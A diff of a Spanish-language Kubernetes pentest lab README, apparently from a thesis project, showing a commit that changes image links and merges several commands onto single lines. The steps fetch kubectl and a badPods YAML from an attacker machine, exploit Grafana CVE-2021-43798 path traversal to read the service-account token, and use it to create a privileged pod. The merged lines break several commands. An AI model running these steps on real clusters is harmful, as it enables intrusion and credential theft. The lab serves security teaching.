

Before and after one commit to Alfesito/Desarrollo-e-Implementacion-de-Medidas-Mitigantes-en-Vulnerabilidades-de-Kubernetes, a Markdown page: kube-lab/lab-pentest/README.md, the part around one of its changes. Drawn GitHub-style; grey boxes are pictures that could not be loaded.

Commit message:
readme images

````diff
--- a/kube-lab/lab-pentest/README.md
+++ b/kube-lab/lab-pentest/README.md
@@ -37,44 +39,35 @@ Una vez dentro hacemos un reconocimiento en el pod:
 ```bash
 python3 -m http.server
 ```
+
 Descargamos el binario y damos permisos de ejecución:
 ```bash
-wget 192.168.1.131:8000/kubectl
-chmod +x kubectl
+wget 192.168.1.131:8000/kubectl chmod +x kubectl
 ```
-
 Verificamos si es posible la creación de pods:
 ```bash
 ./kubectl auth can-i create pods
 ```
-![/home/alfesito/Documents/TFG/TFG-kubevuln/images/no_can-i create pods.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/no_can-i%20create%20pods.png)
-2. Como no se puede crear pod vemos si hay otros servicios corriendo en el nodo.
-```shell
+![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/no_can-i%20create%20pods.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/no_can-i%20create%20pods.png)
+1. Como no se puede crear pod vemos si hay otros servicios corriendo en el nodo.
+```bash
 env
 ```
-![/home/alfesito/Documents/TFG/TFG-kubevuln/images/env.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/env.png)
+![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/env.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/env.png)
+Vemos que hay un servicio Grafana corriendo en 10.103.238.75:3000. Buscamos la versión de Grafana para buscar posibles vulnerabilidades.
 
-Vemos que hay un servicio Grafana corriendo en 10.103.238.75:3000. Buscamos la versión de Grafana para buscar posibles vulnerabilidades.
-```shell
-apk add curl
-curl http://10.103.238.75:3000/login | grep version
+``` bash
+apk add curl curl http://10.103.238.75:3000/login | grep version
 ```
-![/home/alfesito/Documents/TFG/TFG-kubevuln/images/grafana_version.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/grafana_version.png)
-Vemos que la versión de Grafana es la "8.3.0-beta2". Buscando en internet vemos que es vulnerable a LFI, es decir podemos leer archivos del pod de Grafana. La vulnerabilidad esta clasificada con [CVE-2021-43798](https://www.exploit-db.com/exploits/50581).
-Aprovechando la vulnerabilidad de Grafana podemos leer el JWT del serviceaccount de Grafana, para ver si en este caso es posible crear pods con dicho token.
-``` bash
-wget http://10.103.238.75:3000/public/plugins/alertGroups/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
-export token=$(cat token)
-```
-![/home/alfesito/Documents/TFG/TFG-kubevuln/images/token_env.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/token_env.png)Comprobamos si el posible crear pods con el token de Grafana:
+![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/grafana_version.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/grafana_version.png)
+
+Vemos que la versión de Grafana es la "8.3.0-beta2". Buscando en internet vemos que es vulnerable a LFI, es decir podemos leer archivos del pod de Grafana. La vulnerabilidad esta clasificada con [CVE-2021-43798](https://www.exploit-db.com/exploits/50581). Aprovechando la vulnerabilidad de Grafana podemos leer el JWT del serviceaccount de Grafana, para ver si en este caso es posible crear pods con dicho token. ``` bash wget http://10.103.238.75:3000/public/plugins/alertGroups/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token export token=$(cat token) ``` ![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/token_env.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/token_env.png) Comprobamos si el posible crear pods con el token de Grafana:
 ``` bash
 ./kubectl auth can-i create pods --token=$token
 ```
-![/home/alfesito/Documents/TFG/TFG-kubevuln/images/yes_can-i.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/yes_can-i.png)
-Como es posible crear pods, podemos crear un [badpods](https://github.com/BishopFox/badPods) para escalar privilegios al nodo de Minikube.  Este es el YAML que utilizaremos.
+![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/yes_can-i.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/yes_can-i.png)
 
-Copiamos el archivo en la el pod del servicio web, esto lo podemos hacer igual que antes con el servidor python, utilizando los comandos:
+Como es posible crear pods, podemos crear un [badpods](https://github.com/BishopFox/badPods) para escalar privilegios al nodo de Minikube.  Este es el YAML que utilizaremos. Copiamos el archivo en la el pod del servicio web, esto lo podemos hacer igual que antes con el servidor python, utilizando los comandos:
 ```bash
-wget 192.168.1.131:8000/bad-pod.yaml
-./kubectl apply -f bad-pod.yaml --token=$token
+wget 192.168.1.131:8000/bad-pod.yaml ./kubectl apply -f bad-pod.yaml --token=$token
 ```
````
Also changed, not shown: other parts of kube-lab/lab-pentest/README.md (+19 -14 lines).
